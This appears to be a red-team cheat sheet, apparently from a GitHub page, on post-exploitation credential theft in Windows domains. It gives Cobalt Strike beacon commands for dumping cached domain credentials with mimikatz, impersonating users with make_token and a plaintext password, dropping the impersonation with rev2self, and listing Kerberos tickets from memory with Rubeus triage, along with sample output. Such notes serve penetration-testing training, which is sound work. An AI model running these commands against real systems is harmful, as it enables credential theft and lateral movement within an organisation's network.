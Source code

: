 # Domain Cached Credentials

Domain Cached Credentials were designed for instances where domain credentials are required to logon to a machine, even whilst it's disconnected from the domain.

```
beacon> mimikatz lsadump::cache
```

# Make Token  

The `make_token` module which takes the username, domain and plaintext password for a user, as well as a logon type.

This logon type allows the caller to clone its current token and specify new credentials for outbound connections. The new logon session has the same local identifier but uses different credentials for other network connections.

`make_token` uses `LOGON32_LOGON_NEW_CREDENTIALS` logon type.

```
beacon> make_token CORP\user Passw0rd!
```

With `rev2self` will drop the impersonation.

```
beacon> rev2self
[*] Tasked beacon to revert token
[+] host called home, sent: 20 bytes
```

> **Note** We can also login as Local User:
>
> `beacon> make_token .\lapsadmin password`

# Extracting Kerberos Tickets

Instead of craft a TGT we can retrieve it directly from memory.

Rubeus `triage` will list the kerberos tickets in all the logon sessions.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe triage

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x3e7

 ----------------------------------------------------------------------------- 
 | LUID    | UserName           | Service            | EndTime               |
 -----------------------------------------------------------------------------
 | 0x462eb | user1 @ CORP.LOCAL | krbtgt/CORP.LOCAL  | 5/12/2021 12:34:03 AM |
 | 0x25ff6 | user2 @ CORP.LOCAL | krbtgt/CORP.LOCAL  | 5/12/2021 12:33:41 AM |
 -----------------------------------------------------------------------------
```
